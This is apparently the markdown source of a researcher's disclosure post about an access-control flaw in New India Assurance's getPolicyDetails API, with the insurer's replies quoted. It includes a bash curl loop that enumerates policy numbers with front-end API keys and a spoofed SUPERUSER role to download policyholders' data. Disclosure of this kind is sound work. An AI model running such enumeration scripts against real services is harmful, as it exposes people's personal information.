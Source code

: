 ```yaml
---
title: The New India Assurance Co Ltd Alleged Vulnerability 2024
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


An "alleged" vulnerability in the [New India Assurance](https://www.newindia.co.in/portal/login/customer) website allowed downloading sensitive personal information of policyholder simply by the policy number.

Summary of the "alleged" vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [getPolicyDetails](#1-getpolicydetails)  | 31 October 2024 | before 18 November 2024 | Less than 18 | not assigned due to non-reproducibility (due to delay in reporting it to CERT after reporting it to NIA) |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

It is important to note that the company denied existence of any vulnerability.

<!-- more -->

> Thank you for your valuable feedback. We would like to inform you that your
> concerns have been reviewed by the relevant team, and it has been confirmed that
> the system does not permit downloading of other insured details. We assure you that
> NIA is committed to maintaining the safety and security of the customers and will
> continue to do so.
> We consider the matter resolved and are closing it accordingly.

After providing them with a sample JSON file, they replied as follows:

> Dear Sir,
>
> Thank you very much for your revert and inputs.
>
> We really appreciate your concern on the matter and seriousness associated with it.
>
The  fact of matter is that we are having a managed SOC and as soon as we received your alert, we had shared the same with our partners for their response post which immediately we sought the services of Cert-In empanelled  Independent Assurance Auditor. Based on their observations, we updated both Cert-In as well as IRDA on this issue and shared our response to your query.  There was no intention of covering up and NIA believes in collaborative efforts to mitigate vulnerabilities. We are very much interested to learn more on this issue/other cyber security related  issues from you and our INFOSEC team will > coordinate with you to seek your appointment and meet you in person, if it is acceptable to you, to learn more and to infuse improvements.
>
> We once again thank you for the inputs and support.
>
> $$$
>
> Chief Manager,
>
> Corporate Finance & Accounts Dept.,
-----

### 1. getPolicyDetails

The API relied on headers `api_key` and `checksum` but these were available in the front-end code itself, and were not tied to any user session. `userid` and customer ID were also not authenticated or signed.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
for POLICY_NUMBER in $$$$$$$$ $$$$$$$$; do
    curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
    -H 'customerName: CUSTOMER' \
    -H 'typeOfCustomer: CUSTOMER' \
    -H 'api_key: $$$$$$$$' \
    -H 'checksum: $$$$$$$$' \
    -H 'applicationid: portal' \
    -H 'userid: CUSTCG0000' \
    --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"'"$POLICY_NUMBER"'","processType":"NB","productCode":"PU"},"productCode":"PU"}' \
    -o policy_leak_$POLICY_NUMBER.json
done
```

<details>
<summary>Sample output</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_nia/nia_vuln_1.json"
```
</details>

### $$ Alleged fix

After the "alleged" fix, the new curl request was as follows. Observe the new header `X-Auth-Token` and the additional `Cookie` header.

```bash title="sample_script_fixed.sh" linenums="1" hl_lines="2 8"
curl 'https://www.newindia.co.in/BaNCSIntegrationWebComp/rest/commoncomponent/getPolicyDetails' -X POST \
 -H 'X-Auth-Token: $$$$$$$$' \
 -H 'customerName: CUSTOMER' \
 -H 'typeOfCustomer: CUSTOMER' \
 -H 'api_key: $$$$$$$$' \
 -H 'checksum: $$$$' \
 -H 'applicationid: portal' \
 -H 'Cookie: citrix_ns_id=$$$$$$$$' \
 -H 'userid: CUSTCG0000' \
 --data-raw '{"userProfile":{"userId":"CUSTCG0000","loggedInRole":"SUPERUSER"},"quote":{"policyNumber":"$$$$$$$$","processType":"NB","productCode":"PU"},"productCode":"PU"}'
```
